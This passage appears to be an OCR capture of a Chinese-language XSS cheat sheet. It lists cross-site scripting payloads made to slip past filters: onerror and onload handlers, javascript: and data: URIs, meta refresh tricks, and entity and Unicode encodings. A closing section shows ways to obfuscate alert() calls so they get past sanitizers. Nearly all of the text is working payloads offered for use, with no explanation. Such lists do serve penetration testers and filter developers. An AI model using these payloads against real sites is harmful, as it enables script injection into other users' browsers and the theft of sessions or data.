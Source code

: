 >
> <isindex type=image src=1 onerror=alert(XSS)>
>
> <img src=x:alert(alt) onerror=eval(src) alt=0>
>
> <img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>
>
> <iframe/src="data:text/html,<svg onload=alert(1)>">
>
> <meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
>
> <svg><script xlink:href=data&colon;,window.open('<https://www.google.com/>')></script
>
> <meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
>
> <iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
>
> <form><a href="javascript:\u0061lert(1)">X
>
> </script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>
>
> <style>//*{x:expression(alert(/xss/))}//<style></style> 
>
> On Mouse Over
>
> <img src="/" =_=" title="onerror='prompt(1)'">
>
> <a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe
>
> <script x> alert(1) </script 1=2
>
> <form><button formaction=javascript&colon;alert(1)>CLICKME
>
> <input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"
>
> <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

### 3.1.  Alert混淆以绕过过滤器

> (alert)(1)
>
> a=alert,a(1)
>
> [1].find(alert)
>
> top[“al”+”ert”](1)
>
> top[/al/.source+/ert/.source](1)
>
> al\u0065rt(1)
>
> top[‘al\145rt’](1)
>
> top[‘al\x65rt’](1)
>
> top[8680439..toString(30)](1)